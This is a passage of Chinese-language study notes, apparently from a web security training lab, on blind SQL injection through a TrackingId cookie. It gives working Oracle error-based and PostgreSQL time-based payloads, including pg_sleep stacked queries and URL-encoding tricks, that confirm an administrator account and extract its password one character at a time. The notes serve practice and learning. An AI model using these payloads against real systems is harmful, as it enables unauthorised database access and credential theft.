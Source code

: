 改进，爆密码，爆成功！：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when SUBSTR(PASSWORD,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE 'A' END FROM users where username='administrator')='A--
```

## T13 时间盲注

#### 坑：URL编码

`%3B`=`;`

**但有的时候语句中有`;`不可以，但有`%3B`可以**，所以语句注入没有效果时，应该考虑将语句中的所有符号或者空格全都转换成URL编码格式。

猜测是因为：有的浏览器本身没有自带转换URL编码的功能。

#### PostgreSQL数据库

> 检查是否有时间盲注的漏洞。

```SQL
#方法一：
TrackingId=x'||pg_sleep(10)--
#方法二：
';select pg_sleep(10)--堆叠注入
' union select 1,2,pg_sleep(10)--或者和union结合在一起，需要预先知道列数
```

> 用测试的布尔条件来确认是否有时间盲注漏洞

```sql
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

> 测试是否有这一个数据

```SQL
#如何在case when then else中加入列名
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END  from users--
```

> 爆密码长度，为20

```SQL
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator' AND length(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END  from users--
```

> 爆出密码
>
> 建议时间注入的爆密码一个一个爆
>
> 如果要看返回的时长：To see it, go to the "Columns" menu, and check the box for "Response received"

```SQL
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator' AND substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
```
